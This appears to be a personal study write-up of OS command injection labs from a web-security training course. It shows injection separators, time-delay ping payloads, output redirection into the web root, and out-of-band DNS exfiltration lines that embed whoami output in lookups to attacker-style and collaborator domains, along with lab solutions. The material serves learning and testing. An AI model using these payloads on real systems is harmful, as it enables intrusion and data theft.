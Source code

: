 ### Try to inject commands instead of any input e.g. instead of `storeId` or `productId`
In this example, a shopping application lets the user view whether an item is in stock in a particular store with the following endpoint:
```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```
To provide the stock information, the application must query various legacy systems. For historical reasons, the functionality is implemented by calling out to a shell command with the product and store IDs as arguments:
```
stockreport.pl 381 29
```
Instead of `productID` we can submit `& echo aiwefwlguh &` which will change the command to:
```
stockreport.pl & echo aiwefwlguh & 29
```

### Useful commands
| Purpose of command    | Linux         | Windows           | 
| --------------------- | ------------- | ----------------- | 
| Name of current user  | whoami        | whoami            | 
| Operating system      | uname -a      | ver               | 
| Network configuration | ifconfig      | ipconfig /all     |   
| Network connections   | netstat -an   | netstat -an       | 
| Running processes     | ps -ef        | tasklist          |


### Detecting blind OS command injection using time delays
```
& ping -c 10 127.0.0.1 &
```
This command causes the application to ping its loopback network adapter for 10 seconds. 

#### Lab: Blind OS command injection with time delays
Modify the email parameter, changing it to:
```
email=x||ping+-c+10+127.0.0.1||
email=x& ping -c 10 127.0.0.1 &
email=x%26+ping+-c+10+127.0.0.1+%26
```

### Exploiting blind OS command injection by redirecting output
```
& whoami > /var/www/static/whoami.txt &
```
You can then use the browser to fetch https://vulnerable-website.com/whoami.txt to retrieve the file

### Blind OS command injection using out-of-band (OAST) techniques
```
& nslookup kgji2ohoyw.web-attacker.com &
```
This payload uses the nslookup command to cause a DNS lookup for the specified domain

The out-of-band channel provides an easy way to exfiltrate the output from injected commands: 
```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```
This causes a DNS lookup to the attacker's domain containing the result of the `whoami` command: 
```
wwwuser.kgji2ohoyw.web-attacker.com
```

### Ways of injecting OS commands
The following command separators work on both Windows and Unix-based systems:
- &
- &&
- |
- ||
The following command separators work only on Unix-based systems: 
- ;
- Newline (0x0a or \n) 

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:
- ` injected command `
- $( injected command )

The different shell metacharacters have subtly different behaviors that might change whether they work in certain situations. This could impact whether they allow in-band retrieval of command output or are useful only for blind exploitation.

Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command. 

### Lab: Blind OS command injection with out-of-band interaction
x+%26+nslookup+wrrzhjnrmr0erl617nyo9d5i89e02wql.oastify.com+%26

### Lab: Blind OS command injection with out-of-band data exfiltration
There's a submit feedback page.
Email field is vulnerable to cmdi
We send the following payload:
```bash
csrf=xZfsDxyDrm2FqPrJYP0rW0dMD9c6Kc8S&name=ff&email=%26+nslookup+`whoami`.s2vlx2kagx0di3vm0srjqessdjja74vt.oastify.com+%26&subject=fff&message=fff222
```
In collaborator we see: The Collaborator server received a DNS lookup of type A for the domain name peter-f9iFDt.s2vlx2kagx0di3vm0srjqessdjja74vt.oastify.com. 

peter-f9iFDt is the result of `whoami` command
